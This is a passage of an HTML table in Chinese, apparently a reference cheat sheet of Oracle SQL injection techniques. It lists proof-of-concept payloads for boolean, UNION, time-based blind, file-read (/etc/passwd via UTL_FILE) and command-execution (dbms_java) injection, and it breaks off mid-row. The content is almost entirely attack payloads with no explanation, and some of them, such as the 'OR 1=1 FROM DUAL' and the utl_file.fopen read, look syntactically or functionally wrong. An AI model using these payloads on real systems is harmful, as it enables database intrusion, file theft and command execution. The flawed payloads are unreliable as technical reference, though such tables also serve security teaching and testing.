 <table><tbody><tr><td data-colwidth="96" width="96" valign="top" style="padding: 0pt 5.4pt;border-width: 1pt;border-style: solid;border-color: windowtext;"><p><span style=""><font face="方正小标宋_GBK"><span leaf="">注入类型</span></font></span><span style=""><span style="mso-tab-count:1;"></span></span><span style=""><span style="mso-tab-count:1;"></span></span><span style=""><o:p></o:p></span></p></td><td data-colwidth="520" width="372" valign="top" style="padding: 0pt 5.4pt;border-width: 1pt;border-style: solid;border-color: windowtext;"><p><span style=""><font face="方正小标宋_GBK"><span leaf="">POC示例</span></font></span><span style=""><o:p></o:p></span></p></td><td data-colwidth="152" width="152" valign="top" style="padding: 0pt 5.4pt;border-width: 1pt;border-style: solid;border-color: windowtext;"><p><span style=""><font face="方正小标宋_GBK"><span leaf="">关键函数</span></font><font face="方正小标宋_GBK"><span leaf="">/特性</span></font></span><span style=""><o:p></o:p></span></p></td></tr><tr><td data-colwidth="96" width="96" valign="top" style="padding: 0pt 5.4pt;border-left: 1pt solid windowtext;border-right: 1pt solid windowtext;border-top: none;border-bottom: 1pt solid windowtext;"><p><span style=""><font face="方正小标宋_GBK"><span leaf="">布尔检测</span></font></span><span style=""><o:p></o:p></span></p><p><span style=""><o:p><span leaf=""> </span></o:p></span></p></td><td data-colwidth="520" width="372" valign="top" style="padding: 0pt 5.4pt;border-left: 1pt solid windowtext;border-right: 1pt solid windowtext;border-top: none;border-bottom: 1pt solid windowtext;"><p><span style=""><font face="方正小标宋_GBK"><span leaf="">&#39; OR 1=1 FROM DUAL --</span></font></span><span style=""><o:p></o:p></span></p></td><td data-colwidth="152" width="152" valign="top" style="padding: 0pt 5.4pt;border-left: 1pt solid windowtext;border-right: 1pt solid windowtext;border-top: none;border-bottom: 1pt solid windowtext;"><p><span style=""><font face="方正小标宋_GBK"><span leaf="">DUAL虚拟表</span></font></span><span style=""><o:p></o:p></span></p></td></tr><tr><td data-colwidth="96" width="96" valign="top" style="padding: 0pt 5.4pt;border-left: 1pt solid windowtext;border-right: 1pt solid windowtext;border-top: none;border-bottom: 1pt solid windowtext;"><p><span style=""><font face="方正小标宋_GBK"><span leaf="">联合查询</span></font></span><span style=""><o:p></o:p></span></p></td><td data-colwidth="520" width="372" valign="top" style="padding: 0pt 5.4pt;border-left: 1pt solid windowtext;border-right: 1pt solid windowtext;border-top: none;border-bottom: 1pt solid windowtext;"><p><span style=""><font face="方正小标宋_GBK"><span leaf="">&#39; UNION SELECT banner, NULL FROM v$version --</span></font></span><span style=""><o:p></o:p></span></p></td><td data-colwidth="152" width="152" valign="top" style="padding: 0pt 5.4pt;border-left: 1pt solid windowtext;border-right: 1pt solid windowtext;border-top: none;border-bottom: 1pt solid windowtext;"><p><span style=""><font face="方正小标宋_GBK"><span leaf="">v$version视图</span></font></span><span style=""><o:p></o:p></span></p></td></tr><tr><td data-colwidth="96" width="96" valign="top" style="padding: 0pt 5.4pt;border-left: 1pt solid windowtext;border-right: 1pt solid windowtext;border-top: none;border-bottom: 1pt solid windowtext;"><p><span style=""><font face="方正小标宋_GBK"><span leaf="">时间盲注</span></font></span><span style=""><o:p></o:p></span></p><p><span style=""><o:p><span leaf=""> </span></o:p></span></p></td><td data-colwidth="520" width="372" valign="top" style="padding: 0pt 5.4pt;border-left: 1pt solid windowtext;border-right: 1pt solid windowtext;border-top: none;border-bottom: 1pt solid windowtext;"><p><span style=""><font face="方正小标宋_GBK"><span leaf="">&#39; AND DBMS_PIPE.RECEIVE_MESSAGE(&#39;a&#39;,5)=1 --</span></font></span><span style=""><o:p></o:p></span></p></td><td data-colwidth="152" width="152" valign="top" style="padding: 0pt 5.4pt;border-left: 1pt solid windowtext;border-right: 1pt solid windowtext;border-top: none;border-bottom: 1pt solid windowtext;"><p><span style=""><font face="方正小标宋_GBK"><span leaf="">DBMS_PIPE.RECEIVE_MESSAGE()</span></font></span><span style=""><o:p></o:p></span></p></td></tr><tr><td data-colwidth="96" width="96" valign="top" style="padding: 0pt 5.4pt;border-left: 1pt solid windowtext;border-right: 1pt solid windowtext;border-top: none;border-bottom: 1pt solid windowtext;"><p><span style=""><font face="方正小标宋_GBK"><span leaf="">文件读取</span></font></span><span style=""><o:p></o:p></span></p></td><td data-colwidth="520" width="372" valign="top" style="padding: 0pt 5.4pt;border-left: 1pt solid windowtext;border-right: 1pt solid windowtext;border-top: none;border-bottom: 1pt solid windowtext;"><p><span style=""><font face="方正小标宋_GBK"><span leaf="">&#39; UNION SELECT utl_file.fopen(&#39;/etc&#39;,&#39;passwd&#39;) FROM DUAL --</span></font></span><span style=""><o:p></o:p></span></p></td><td data-colwidth="152" width="152" valign="top" style="padding: 0pt 5.4pt;border-left: 1pt solid windowtext;border-right: 1pt solid windowtext;border-top: none;border-bottom: 1pt solid windowtext;"><p><span style=""><font face="方正小标宋_GBK"><span leaf="">UTL_FILE包</span></font></span><span style=""><o:p></o:p></span></p></td></tr><tr><td data-colwidth="96" width="96" valign="top" style="padding: 0pt 5.4pt;border-left: 1pt solid windowtext;border-right: 1pt solid windowtext;border-top: none;border-bottom: 1pt solid windowtext;"><p><span style=""><font face="方正小标宋_GBK"><span leaf="">命令执行</span></font></span><span style=""><o:p></o:p></span></p><p><span style=""><o:p><span leaf=""> </span></o:p></span></p></td><td data-colwidth="520" width="372" valign="top" style="padding: 0pt 5.4pt;border-left: 1pt solid windowtext;border-right: 1pt solid windowtext;border-top: none;border-bottom: 1pt solid windowtext;"><p><span style=""><font face="方正小标宋_GBK"><span leaf="">&#39;; EXEC dbms_java.runjava(&#39;oracle/aurora/util/Wrapper&#39;)